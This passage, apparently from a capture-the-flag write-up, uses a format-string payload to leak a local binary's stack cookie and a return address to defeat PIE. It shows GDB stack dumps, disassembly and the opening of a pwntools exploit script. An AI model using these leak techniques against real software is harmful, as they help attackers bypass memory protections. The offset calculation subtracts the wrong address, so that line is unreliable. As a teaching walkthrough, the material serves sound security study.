 Now, continue running the program by entering `c` twice.

We should be getting output as follows: 

```
0xa702439252e70.(nil).0x7fffffffdea0
So let's get into business, give me a secret to exploit me :).
```

Notice how our format specifiers correspond to the memory contents on the stack: 

```
0x7fffffffde18:	0x000055555555523c	0x2438252e70243725 
0x7fffffffde28:	0x000a702439252e70	0x0000000000000000 
                ^  %7$p             ^ %8$p
0x7fffffffde38:	0x00007fffffffdea0	0x00007fffffffdfb8
                ^  %9$p             ^ %10$p 
0x7fffffffde48:	0x36a8affd9f0bfa00	0x00007fffffffdea0
                ^  %11$p            ^ %12$p
0x7fffffffde58:	0x00005555555552c5	0x0000000000000000
                ^  %13$p            etc etc etc
0x7fffffffde68:	0x0000000000000000	0x0000000000000000

```

Remember, our goal here is to leak 
- the stack cookie
- a return address so we can defeat **PIE**

Notice that `%11$p` refers to the stack cookie `0x36a8affd9f0bfa00` and `%13$p` refers to the return address of `get_name()` back into `main()` 

```
        001012c0 e8 24 ff        CALL       get_name                                         undefined get_name()
                 ff ff
        001012c5 48 8d 3d        LEA        RDI,[s_So_let's_get_into_business,_give_001020   = "So let's get into business, g
                 64 0d 00 00
```

Since we are running this binary under GDB currently, the actual base address is not randomized for debugging purposes. From the command `vmmap` we can see that the binary is always mapped at `0x00555555554000`, this means that our leaked return address `0x00005555555552c5` is at offset 0x000055555555523c - 0x00555555554000 = 0x00012c5 from the PIE base address.

So, in order to figure out the randomized PIE base address, we need to substract 0x12c5 from our leaked address.

# Exploit #

```python
#!/usr/bin/env python3 
from pwn import *

context.update(arch="amd64")

r = process("./main")


###
### Stage 1: Leak stack cookie and PIE
###

# format string payload, we know that cookie is at %11 and return address at %13
fmt_payload = b"%11$p.%13$p"

pause()
```